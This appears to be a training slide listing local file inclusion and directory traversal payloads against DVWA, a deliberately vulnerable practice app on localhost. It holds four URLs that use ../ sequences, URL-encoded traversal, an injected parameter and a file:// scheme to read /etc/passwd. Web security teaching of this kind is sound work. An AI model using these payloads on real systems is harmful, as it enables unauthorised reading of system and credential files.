

# File Inclusion / Directory Traversal Payloads
http://localhost/DVWA/vulnerabilities/fi/?page=../../../../../../etc/passwd

localhost/DVWA/vulnerabilities/fi/?page=%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd

/DVWA/vulnerabilities/fi/?page=file1.php||page=%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
http://localhost/DVWA/vulnerabilities/fi/?page=file:///etc/passwd